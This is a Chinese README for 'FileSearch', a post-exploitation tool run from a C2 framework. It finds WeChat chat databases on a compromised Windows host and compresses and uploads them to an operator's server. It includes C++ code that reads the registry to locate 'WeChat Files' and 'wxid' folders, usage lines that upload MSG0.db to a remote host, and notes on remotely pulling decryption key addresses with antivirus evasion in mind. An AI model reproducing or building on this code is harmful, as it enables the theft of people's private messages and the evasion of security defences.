 # FileSearch

## 更新

### v1.2(暂不开源)

实战中发现全盘查找微信db在c2中非常拉跨，查找等待时间较长，且盘符越多越慢

1、直接读取注册表的键值，wxid关键字匹配拼接路径


```
void getPath(char *dbpath)
{
	char cmd_command[256] = { 0 };
	char regname[] = "Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\Shell Folders";
	HKEY hKey;
	DWORD dwType = REG_BINARY;
	REGSAM mode = KEY_READ;
	DWORD length = 256;
	int ret = RegOpenKey(HKEY_CURRENT_USER, regname, &hKey);

	ret = RegQueryValueEx(hKey, "Personal", 0, &dwType, (LPBYTE)dbpath, &length);
	strcat(dbpath, "\\WeChat Files");
	//cout << dbpath << endl;

	if (ret == 0) {
		RegCloseKey(hKey);
	}
	else {
		printf("failed to open regedit.%d\n", ret);
	}
}

```

```
void getFileNames(string path, vector<string>& files)
{
	intptr_t hFile = 0;
	//文件信息
	struct _finddata_t fileinfo;
	string p;
	string::size_type idx;

	if ((hFile = _findfirst(p.assign(path).append("\\*").c_str(), &fileinfo)) != -1)
	{
		do
		{
			//如果是目录,匹配文件夹
			if ((fileinfo.attrib & _A_SUBDIR))
			{
				if (strstr(fileinfo.name, "wxid") != NULL)
					files.push_back(p.assign(path).append("\\").append(fileinfo.name));
			}

		} while (_findnext(hFile, &fileinfo) == 0);
		_findclose(hFile);
	}
}

```
2、传输改成socket协议，支持大文件上传，效率很快，需要启动个Server socket
![](https://cdn.nlark.com/yuque/0/2022/png/262397/1665465880719-3ec78718-3e6e-4ac8-87a1-d2751bfdaabf.png)

3、参考https://github.com/Ormicron/Sharp-dumpkey 

远程拉取基址，考虑到免杀性改成了C++代码，
![](https://cdn.nlark.com/yuque/0/2022/png/262397/1665469015290-f07178fb-95a6-4d35-9161-bbf2d4a7da13.png)



### v1.1
服务端：python2 http_put.py 80 path 

（win10自带curl.exe，其他系统可以上传一个或者引用socket库）

1、新增全盘查找微信聊天记录db文件并压缩上传到指定服务器

2、压缩本地文件并上传到指定服务器

3、指定盘查找指定文件后缀并输出
```
[+] eg: Filesearch default baidu.com
[+] eg: Filesearch upload C:\MSG0.db baidu.com
[+] eg: Filesearch search C:\ docx

```
## v1.0

```
System Drive are:C:\D:\
Command:FileSearch.exe Drive Keyword
Example:FileSearch.exe C:\ docx
```

![](https://cdn.nlark.com/yuque/0/2020/png/262397/1598583458455-d71cecb3-ef4e-49de-b33e-fe81c55c012b.png)
